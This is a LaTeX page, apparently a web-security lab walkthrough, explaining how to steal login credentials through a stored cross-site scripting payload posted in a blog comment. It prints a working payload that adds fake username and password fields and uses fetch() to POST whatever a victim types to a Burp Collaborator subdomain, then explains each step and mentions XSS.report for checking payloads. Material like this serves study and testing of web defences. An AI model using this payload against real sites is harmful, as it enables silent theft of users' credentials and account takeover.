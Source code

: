 \documentclass{article}
\begin{document}
\textbf{\underline{Using Burp Suite Collaborator to Steal Login Credentials}}
\begin{enumerate}
\item Using Burp Suite Professional, go to the \textbf{Collaborator tab}
\item Click \texttt{"Copy to clipboard"} to copy a unique Burp Collaborator payload to your clipboard
\item Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
\begin{lstlisting}[frame=single]
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)
fetch('https://BURP-COLLABORATOR-SUBDOMAIN',
{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
\end{lstlisting}
\item This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server
\item Go back to the Collaborator tab, and click \texttt{"Poll now"}. You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again
\end{enumerate}

\newpage
\underline{How This Attack Works:}
\begin{itemize}
\item Creates fake username and password input fields on the vulnerable page
\item The \texttt{onchange} event triggers when the user types their password
\item \texttt{if(this.value.length)} ensures the request is only sent when password field has content
\item Combines username and password with a colon separator in the POST body
\item Sends the credentials to the attacker's Collaborator server in real-time
\item Attacker can then use the stolen credentials to authenticate as the victim
\end{itemize}

\vspace{.25cm}
\textbf{\underline{Exploiting XSS Vulnerabilities Using XSS.report website}}
\vspace{.25cm}
\\XSS.report automatically verifies if submitted payloads successfully execute, providing immediate confirmation of vulnerability validity without manual testing.
\end{document}
